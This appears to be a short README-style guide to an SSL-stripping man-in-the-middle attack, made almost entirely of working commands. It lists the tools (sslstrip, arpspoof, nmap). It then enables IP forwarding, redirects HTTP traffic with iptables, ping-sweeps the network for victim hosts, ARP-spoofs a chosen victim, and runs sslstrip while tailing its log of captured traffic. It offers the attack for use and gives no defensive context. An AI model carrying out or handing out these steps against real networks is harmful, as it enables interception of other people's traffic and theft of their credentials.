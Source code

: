 ## ssl striping https to http (mitm)  
### this attack requires you to be on the same network.  
*tools needed*  
1. sslstrip  
2. arpspoof  
3. nmap  

### steps
1. `echo 1 > /proc/sys/net/ipv4/ip_forward`  its either 0 or 1.  we need it to be 1.  
2. `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`  
3. verify -- `iptables -t nat -L PREROUTING`  

*before*
```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination 
```
**after**
```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         
REDIRECT   tcp  --  anywhere             anywhere             tcp dpt:http redir ports 8080
```
#### find victim machine host  
4. `nmap -n -sn 10.0.0.0/8 -vv`  scan local network  ping sweep  
5. `nmap -sP 192.168.2.1/24` or  `nmap $1 -n -sP | grep report | awk '{print $5}'` or `arp -a -n` finds all live hosts on network  
6. `arpspoof  -i wlan0 -t 10.0.0.1 -r 10.0.0.3<victim machine>`  
open ports if necessary  
8. check - `iptables -L INPUT`  
should look like this  
```
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http-alt
```
7. `iptables -I INPUT 1 -p tcp --dport 8080 -j ACCEPT`  
8. `sslstrip -l 8080`  listening on port 8080  
*new terminal*  
9. `tail -f sslstrip.log`  

